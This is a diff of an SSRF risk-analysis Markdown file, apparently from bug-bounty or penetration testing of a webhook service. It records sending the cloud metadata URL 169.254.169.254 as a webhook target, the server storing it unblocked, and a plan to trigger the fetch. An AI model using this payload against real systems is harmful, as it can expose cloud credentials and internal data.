

Before and after one commit to VenuMadhavReddy17/Traffic-Signal-Detection, a Markdown page: SSRF_RISK_ANALYSIS.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update: server accepts internal metadata URL without blocklist — awaiting trigger test
Co-authored-by: Venu <VenuMadhavReddy17@users.noreply.github.com>

````diff
--- a/SSRF_RISK_ANALYSIS.md
+++ b/SSRF_RISK_ANALYSIS.md
@@ -689,15 +689,42 @@ Now that SSRF is confirmed, the following tests determine the **severity and imp
 
 #### Test 1 — Can it reach AWS metadata? (Critical escalation)
 
-In Burp Repeater, resend the request with:
+**RESULT: PARTIALLY CONFIRMED**
+
+Request sent with `"webhook_url": "http://169.254.169.254/latest/meta-data/"`.
+
+Server response (200 OK):
 
 ```json
-"webhook_url": "http://169.254.169.254/latest/meta-data/"
+{
+  "info": "Save completed.",
+  "template": {
+    "webhook_url": "http://169.254.169.254/latest/meta-data/",
+    "webhook_method": "POST",
+    "webhook_headers": {},
+    "webhook_body_type": "json",
+    "webhook_body": "{}",
+    "webhook_is_kakao": false,
+    "id": "69c8ddca629242005dba88d8",
+    "name": "venu",
+    "description": null,
+    "api_identifier": "18895a36-80c0-48fa-957f-516a1af90b4b",
+    "tag_names": [],
+    "territory_ids": [],
+    "last_edited_at": 1774771658,
+    "marked_as_deleted": false,
+    "created_by": "69c8d258629242005dba8850",
+    "last_edited_by": "69c8d258629242005dba8850"
+  }
+}
 ```
 
-Then check:
-- Does the response contain metadata content? (full SSRF)
-- Does Collaborator show the request was attempted? (use a redirect chain if needed)
+**Observations:**
+- The server **accepted and stored** `http://169.254.169.254/latest/meta-data/` without blocking it.
+- **No internal IP blocklist** is enforced at the save/validation level.
+- The save operation does not trigger the outbound request — a separate test/trigger action is needed.
+- Template ID obtained: `69c8ddca629242005dba88d8`.
+- **Next:** Trigger the webhook via test endpoint to see if the server actually fetches metadata content.
 
 If IMDSv2 is enforced, try:
 
````
